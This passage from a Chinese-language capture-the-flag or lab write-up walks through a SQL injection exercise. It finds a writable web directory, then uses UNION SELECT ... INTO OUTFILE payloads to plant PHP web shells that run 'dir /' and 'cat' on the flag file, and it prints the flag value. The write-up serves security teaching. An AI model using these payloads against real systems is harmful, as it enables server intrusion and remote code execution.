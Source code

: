 已知默认网站根目录是 `/var/www/html`，结合当前网页，可以推断 `/dashboard/dashboard.php` 文件就在 `/var/www/html` 之下，即 `/dashboard/dashboard.php` 的完整路径是 `/var/www/html/dashboard/dashboard.php`。猜测在 `/var/www/html/dashboard` 目录中当前用户有可写权限。

尝试注入： `' UNION SELECT 1,'file written successfully!', "", "", ""  into outfile '/var/www/html/dashboard/proof.txt'-- -`，注入成功。尝试查看 `/dashboard/proof.txt`，结果如下，成功，说明 `/var/www/html/dashboard` 是正确的可写目录。

![](img/12-3-02.png)
### 4  寻找 flag

审题：

> Assess the web application and use a variety of techniques to gain remote code execution and find a flag **in the / root directory** of the file system. Submit the contents of the flag as your answer.

可以推知，包含 flag 的文件就在根目录之下。

于是，注入 `cn' UNION SELECT "",'<?php system("dir /"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -`，然后打开 `/dashboard/shell.php` 这一 URN。这一步用来查看根目录下的所有文件和目录，可以发现 flag 文件：`flag_cae1dadcd174.txt`

考虑到上一步中，最终得到的 `proof.txt` 获取的内容，再结合网页源代码，我们需要在注入载荷的开头加一串无法匹配到 `month` 列中所有值的字符串（例如 `cn`），确保不会有表中原来的的内容被搜索到，进而被添加进 shell 文件中并干扰 shell 命令的执行。

![](img/12-4-01.png)

使用 `cat` 命令打开 flag文件：`cn' UNION SELECT "",'<?php system("cat /flag_cae1dadcd174.txt"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell_read.php'-- -`，注入成功后打开 `/dashboard/shell_read.php` ，得到 flag：`528d6d9cedc2c7aab146ef226e918396`

![](img/12-4-02.png)

### 关于我在寻找可写目录以及找 Flag 时到底干了什么蠢事

经如下尝试：
